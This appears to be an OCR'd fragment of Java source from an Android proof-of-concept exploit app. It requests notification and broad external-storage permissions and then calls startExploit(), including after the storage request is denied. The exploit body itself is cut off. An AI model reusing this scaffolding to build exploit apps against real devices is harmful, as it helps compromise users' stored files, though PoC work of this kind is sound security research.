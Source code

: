 ```java
        Log.i("PoC", "requesting legacy storage permissions");  
        ActivityCompat.requestPermissions(this, new String[]{  
                Manifest.permission.READ_EXTERNAL_STORAGE,  
                Manifest.permission.WRITE_EXTERNAL_STORAGE  
        }, STORAGE_PERMISSION_CODE);  
    }  
  
    @Override  
    protected void onActivityResult(int requestCode, int resultCode, Intent data) {  
        super.onActivityResult(requestCode, resultCode, data);  
  
        if (requestCode == MANAGE_STORAGE_CODE) {  
            if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.R) {  
                if (Environment.isExternalStorageManager()) {  
                    Log.i("PoC", "MANAGE_EXTERNAL_STORAGE granted");  
                    startExploit();  
                } else {  
                    Log.e("PoC", "MANAGE_EXTERNAL_STORAGE denied");  
                    Toast.makeText(this, "storage permis required for exploit", Toast.LENGTH_LONG).show();  
                    // try with legacy perms  
                    requestLegacyPermissions();  
                }  
            }        }    }  
    @Override  
    public void onRequestPermissionsResult(int requestCode, @NonNull String[] permissions, @NonNull int[] grantResults) {  
        super.onRequestPermissionsResult(requestCode, permissions, grantResults);  
  
        if (requestCode == NOTIFICATION_PERMISSION_CODE) {  
            if (grantResults.length > 0 && grantResults[0] == PackageManager.PERMISSION_GRANTED) {  
                Log.i("PoC", "notification perm granted");  
            } else {  
                Log.w("PoC", "notification perm denied");  
            }  
  
            // get storage  
            if (hasStoragePermissions()) {  
                startExploit();  
            } else {  
                requestStoragePermissions();  
            }  
        }  
        if (requestCode == STORAGE_PERMISSION_CODE) {  
            boolean allGranted = true;  
            for (int result : grantResults) {  
                if (result != PackageManager.PERMISSION_GRANTED) {  
                    allGranted = false;  
                    break;  
                }  
            }  
            if (allGranted) {  
                Log.i("PoC", "legacy storage perm granted");  
                startExploit();  
            } else {  
                Log.e("PoC", "storage perm denied");  
                Toast.makeText(this, "storage permissions required for exploit", Toast.LENGTH_LONG).show();  
                startExploit(); // try anyway  
            }  
        }    }  
    private void startExploit() {  
```